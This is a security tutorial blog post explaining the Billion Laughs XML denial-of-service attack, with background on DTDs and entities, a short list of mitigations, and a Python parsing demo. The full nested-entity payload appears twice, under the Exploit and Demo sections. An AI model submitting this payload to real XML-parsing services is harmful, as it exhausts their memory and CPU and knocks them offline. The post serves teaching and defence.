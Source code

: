 ```yaml
---
title:  "XML Security: A Billion Laughs"
date:   2016-01-26 02:22:02 +0900
description: XML Security
tags: [security]
---
```



# What ?
The Billion Laughs attack is a denial-of-service attack that targets XML parsers in many programming language libraries such as: SAX, Etree, DOM.  It can occur even when using well-formed XML and can also pass XML schema validation.

# Why should we care about it ?
An attacker submits an XML document to a target application where the XML document uses nested entity expansion to produce an excessively large output XML. XML allows the definition of macro-like structures that can be used to simplify the creation of complex structures. However, this capability can be abused to create excessive demands on a processor's CPU and memory. A small number of nested expansions can result in an exponential growth in demands on memory.

# How
### Background
In order to understand how Billion laughs attack works, we need to have background in XML entity and some definitions of XML document:

* DTDs (Document Type Definition) are meant to define the expected structure of an XML document. It is a set of markup declarations that defines a document type for an SGML-family markup languages (SGML, XML, HTML).
* XML stands for EXtensible Markup Language.
* XML was designed to store and transport data.
* XML was designed to be both human and machine-readable.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<animal>
  <name>cat</name>
  <action>meoooo</action>
</animal>
```

XML Entities:

* Entities are used to define shortcuts to special characters.
* Entities can be declared internal or external.
* Entities that are not predefined can be declared internal or external.
    * Internally declared - the entity is defined within the same document.
    * Externally declared - the entity is defined in an external document. Only the reference to the external document is given.

The following code will explain what XML entity is:

```xml
<!ENTITY writer "Donald Duck.">
<!ENTITY copyright "Copyright W3Schools.">
<author>&writer;&copyright;</author>
```

When we use `&writer;` it will symbolic present to writer attribute and get value "Donal Duck". Similar to that thing, `&copyright;` will symboic present to copyright and get value "Copyright W3Schools".

## Exploit
The vanilla Billion Laughs attack is illustrated as XML code follow:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

In this example, there are 10 different XML entities, lol – lol9. The first entity, lol is defined to be the string “lol”.  However, each of the other entities are defined to be 10 of another entity.  The document content section of this XML file contains a reference to only one instance of the entity lol9.  However, when this is being parsed by a DOM or SAX parser, when lol9 is encountered, it is expanded into 10 lol8’s, each of which is expanded into 10 lol7’s, and so on and so forth.  By the time everything is expanded to the text lol, there are 100,000,000 instances of the string lol.  If there was one more entity, or lol was defined as 10 strings of “lol”, there would be a Billion “lol”s, hence the name of the attack.  Needless to say, these expansions consumes an exponential amount of resources and time, causing the DOS.

# Demo
XML file name `lol.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

Python code:

```python
import xml.etree.ElementTree as ET
tree = ET.parse('lol.xml')
root = tree.getroot()
```

Execute it.

# Mitigating
Because the behavior of each XML parser may be different based on implementation, there is no one way to prevent Billion Laughs attacks.  However, there are a few main techniques used to prevent this denial-of-service attack.

* Turn off entity expansion.
* Limit the number of Entity Reference Nodes so that the parser can expand.
* Limit the number of characters entities can expand to.

